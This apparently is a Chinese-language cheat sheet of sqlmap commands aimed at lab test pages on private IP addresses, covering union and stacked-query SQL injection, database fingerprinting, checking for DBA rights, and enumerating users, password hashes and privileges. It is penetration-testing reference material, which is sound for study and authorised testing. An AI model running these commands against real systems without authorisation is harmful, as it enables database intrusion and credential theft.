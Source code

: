 ```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"
```

多语句测试，php内嵌函数mysql_query(),不支持多语句

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1
```

union注入测试

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1
```

unionz注入配合orderby

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs
```

fingerprint

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b
```

判断当前用户是否是dba

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --is-dba -v 1
```

列举数据库用户

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0
```

列举数据库用户密码

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0
```

查看用户权限

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0
```
